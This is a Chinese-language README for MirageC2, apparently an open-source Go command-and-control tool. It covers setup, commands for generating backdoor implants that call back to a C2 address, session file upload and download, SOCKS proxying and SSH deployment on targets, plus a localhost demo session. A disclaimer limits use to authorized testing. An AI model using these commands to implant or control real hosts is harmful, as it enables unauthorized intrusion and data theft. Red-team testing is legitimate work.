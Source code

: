 # MirageC2
一款基于golang开发的C2平台，在后续的开发中，将陆续完善其功能。

# 安装方式
1. 在服务端，您的PC需要具备[golang1.20+](https://go.dev)的运行环境，用于生成木马。
2. go环境安装完毕后，运行run.bat或者run.sh会自动帮您安装服务端所需的库环境。

# 使用方式
本程序中使用到的所有的模块，例如创建后门、创建ssh、创建socks等都在您的电脑上进行，所以第一次运行这些指令的时候需要花上一定的时间，请耐心等待。

1. 运行可执行程序打开MirageC2服务器端。
```
> help:	输出帮助信息。
> create: 	通过Create参数来生成指定的Shell。例子: create <windows/linux/darwin> <C2IP:C2Port> <Save Path>
            [!] 注意如果使用create功能，您必须保证Server端拥有golang的运行环境。
> kill:		杀死指定的job或者session。例子：kill job <id>
> listen:  	在本地设置侦听的端口。例子: listen 127.0.0.1:8888
> show: 	[jobs,sessions]查看侦听的端口以及能够命令控制的会话。例如：show sessions
> session:	进入到指定会话中进行命令执行。例子: session <id>
```

2. Session会话中支持的指令。
```
> help:        输出帮助信息。
> show:        查看当前session中命令执行的列表。
> upload:      上传文件至目标服务器，例子：upload <LocalPath> <RemotePath>
> download:    下载目标服务器文件至本地，例子：download <RemotePath> <LocalPath>
> socks:       1. 部署代理功能，例子：socks <ReverseServerIP> <ServerPort> <ForwardPort>
               2. 控制目标主机连接代理服务器，例子：socks connect <ReverseServerIP>:<ServerPort>
> ssh:         1. 部署SSH功能，例子：ssh install
               2. 连接目标主机的SSH：ssh connect <SSHServerIP>
```

3. 使用案例
```
Mirage Control > listen 127.0.0.1:8888
[+] Jobs Set: listen ip 127.0.0.1:8888

Mirage Control > create darwin 127.0.0.1:8888 mirage
[+] 已经成功输出后门程序至指定的目录！
[!] 如果您还未进行侦听，请运行：listen 127.0.0.1:8888

Mirage Control >  
[+] Sessions 1 Online: 127.0.0.1:52056 -> 127.0.0.1:8888

Mirage Control > show sessions
[*] Job ID: "1", Client IP: "127.0.0.1:52057", Shell User: "deepmountains", Platform: "darwin", ProcessName: "mirage"

Mirage Control > session 1

Mirage Control -> Session1 > whoami
[+] Command ID: 0 
[-+] Result: --------------- 
deepmountains
[-+] Result: ---------------
Mirage Control -> Session1 > 
```

# 免责声明
本工具仅供合法用途使用，旨在帮助用户测试和评估其自身系统的安全性，以发现潜在漏洞并采取适当的补救措施。使用本工具前，您需仔细阅读并同意以下免责声明：
1. 合法使用：本工具应仅在您拥有合法授权的系统或网络上使用。任何在未经授权的情况下使用本工具对他人系统进行测试的行为，均被视为违法，并可能导致刑事或民事责任。
2. 责任限制：使用本工具所产生的一切后果由用户自行承担。开发者不对因使用本工具造成的任何直接或间接损失负责，包括但不限于系统崩溃、数据丢失或服务中断。
3. 禁止恶意用途：严禁将本工具用于任何形式的恶意活动，包括但不限于黑客攻击、数据窃取、破坏系统或绕过安全措施等。
4. 知法守法：用户需确保其使用行为符合所在国家和地区的法律法规。若因用户的非法使用行为引发任何法律纠纷，开发者概不负责。
5. 技术支持：本工具为“按现状”提供，开发者不保证其适用于任何特定用途或场景，也不承诺提供技术支持或更新。

